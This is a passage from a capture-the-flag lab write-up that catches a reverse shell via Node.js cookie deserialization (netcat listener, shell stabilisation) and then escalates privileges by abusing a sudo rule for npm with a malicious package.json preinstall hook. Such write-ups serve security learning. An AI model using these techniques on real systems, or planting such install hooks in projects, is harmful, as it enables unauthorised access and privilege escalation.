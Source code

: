 Open a netcat listener and click `Send` on the Repeater tab and we get a reverse shell as `www`


```shell
geobour98@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.8.200.50] from (UNKNOWN) [10.10.213.208] 58244
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www@vulnnet-node:~/VulnNet-Node$ ^Z
zsh: suspended  nc -lvnp 443
geobour98@kali:~$ stty raw -echo;fg
1]  + continued  nc -lvnp 443

www@vulnnet-node:~/VulnNet-Node$ 
www@vulnnet-node:~/VulnNet-Node$ export TERM=xterm-256color
www@vulnnet-node:~/VulnNet-Node$ stty rows 38 cols 111
www@vulnnet-node:~/VulnNet-Node$ whoami
www
www@vulnnet-node:~/VulnNet-Node$ id
uid=1001(www) gid=1001(www) groups=1001(www)
```

The server performed deserialization of the `Cookie` header so the reverse shell was executed. The payload used can be found in this great article: <a href="https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/" target="_blank">Exploiting Node.js deserialization bug for Remote Code Execution</a>, which is about `Node.js` deserialization as in our case.

## Privilege Escalation

After executing the command: `sudo -l` we see that we can execute `npm` as `serv-manage` without being asked for password. 


```shell
www@vulnnet-node:~/VulnNet-Node$ sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm
```

A great exploit for this can be found on: <a href="https://gtfobins.github.io/gtfobins/npm/#sudo" target="_blank">GTFObins npm</a>


```shell
www@vulnnet-node:~/VulnNet-Node$ cd /dev/shm
www@vulnnet-node:/dev/shm$ echo '{"scripts": {"preinstall": "/bin/bash"}}' > /dev/shm/package.json
www@vulnnet-node:/dev/shm$ sudo -u serv-manage npm -C /dev/shm/ --unsafe-perm i

> @ preinstall /dev/shm
> /bin/bash

serv-manage@vulnnet-node:/dev/shm$ cd /home/serv-manage
serv-manage@vulnnet-node:~$ id
uid=1000(serv-manage) gid=1000(serv-manage) groups=1000(serv-manage)
serv-manage@vulnnet-node:~$ cat user.txt
THM{[REDACTED]}
```
